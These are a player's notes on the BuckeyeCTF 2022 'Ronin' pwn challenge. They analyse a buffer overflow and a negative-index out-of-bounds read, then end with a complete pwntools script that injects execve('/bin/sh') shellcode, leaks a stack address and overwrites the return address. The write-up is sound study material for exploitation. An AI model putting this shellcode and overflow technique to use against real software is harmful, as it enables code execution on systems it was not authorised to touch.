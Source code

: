* TOC
{:toc}

# Notice

This is currently just a hack note - aka, then notes I took on the challenge when I was playing. It will be flushed out into a full fleged writeup / walkthrough in the near future :)

This is a writeup about the 2022 BuckeyeCTF challenge `Ronin`

# BuckeyeCTF2022 Ronin Challenge | Thomas Spencer

> Category `pwn` | Difficulty: `medium`

# Recon

## File

```
ronin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=eb4ccdef02a96139df6de419cbc283e0f26f1d85, for GNU/Linux 3.2.0, not stripped
```

## Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

NX, RWX, and no canary means we probably can do a shellcode injection!


# Functions

## Main

* Asks for user input

    * No buffer overflow

* Progress if we enter the string `"Chase after it."` as the first bit of our input

    * This means we can fill the rest of the buffer (size 80) with whatever we want!

## Chase

* Entered by typing `"Chase after it."` in `main`

* Has a local array of 4 strings


> "The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n";

> "Tall, thick trees surround you. You can't see a thing. Best to go back.\n";

> "You found the monkey! You continue your pursuit.\n";

> "You find a clearing with a cute lake, but nothing else. Turning around.\n";


* Function takes in a user input, and will call the `search` with the chosen string

* Only checks if the user choice is less than 4

    * This means we can input a negative value since our input is a signed integer

## Search

* Will just print out the text from the previous function

    * Unless the user input was 2 (find monkey string), then we go into the encounter function

    * **Notice: after the encounter function call is an `exit(0)` call!**

## Encounter

* Clears the input

* Prints out some text

* Uses `fgets(s, 49, stdin)` on a buffer of size `32`

    * This means we can overflow saved RBP and saved RIP only


# Vulnerabilites

* Buffer Overflow in `encounter` function

    * Will have to be last because of the `exit(0)` call afterwards

* Out of bounds read on the string array in `chase`

    * Only negative values allowed

    * Output will be simply printed out, and we can keep looping this indefinetly

# Plan of Attack

* NX enabled and RWX means we should make some shellcode. A simple `execl('/bin/bash', ...)` will do

* We'll have to leak the stack address (particularily of the array in main) to find our shellcode

    * Will have to be done with the out of bound read in `chase`

# Exploit Outline

* Enter main, put `"Chase after it."` + `shellcode` as our input

* Run through `search` with a valid string to seed the stack with proper data

* Run through `search` again with a negative offset to leak saved RBP

    * This saved RBP will be for the `chase` function!

* Use the leak to find the address of our shellcode

* Enter `encounter` and overflow RIP to jump to our shellcode

* Profit B)

# TODO:

* Need to figure out why the offset is saved RBP to shellcode offset is `0x50`

* Need to figure out why the offset to leak the saved RBP is `(0x10 + 0x8 + 0x8) // 0x8 = 4`

# Final Script

```python
#!/bin/env python3
from pwn import *

FILE = "./ronin"

DEBUG = False 

context.arch = "amd64"
context.encoding = "latin"

if (DEBUG):
	context.log_level = "debug"

warnings.simplefilter("ignore")

shellcode = asm("\n".join([
	"xor rax, rax",
	"push rax",
	"mov rax, 0x3b",
	"lea rdi, [rip+binsh]",
	"push rdi",
	"mov rsi, rsp",
	"xor rdx, rdx",
	"syscall",
	"binsh:",
	".string \"/bin/sh\"",
]))

LEAK_OFFSET = 0x10 + 0x8 + 0x8
SHELLCODE_OFFSET = 0x50 - len(b'Chase after it.')

p = process([FILE])

if (DEBUG):
	input("Attach Now!")

# Part 1, inject shellcode
p.recvuntil(b'You look up to see a monkey wielding your sword! What will you do?')
p.sendline(b'Chase after it.' + shellcode)

# Part 2, seed stack
p.recvuntil(b'far. Which way will you look? ')
p.sendline(b'0')

# Part 3, leak data
p.recvuntil(b'The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n')
p.sendline(str(-LEAK_OFFSET // 8).encode())

RBPLEAK = p.recv(8)
RBPLEAK = int.from_bytes(RBPLEAK, "little")
print(hex(RBPLEAK))

# Part 4, Overflow
p.sendline(b'2')
p.recvuntil(b'This monkey can talk. "Tell me a joke." ')

payload  = b'A'*0x20
payload += b'B'*0x8
payload += p64(RBPLEAK - SHELLCODE_OFFSET)

p.sendline(payload)

p.interactive()
p.close()
```
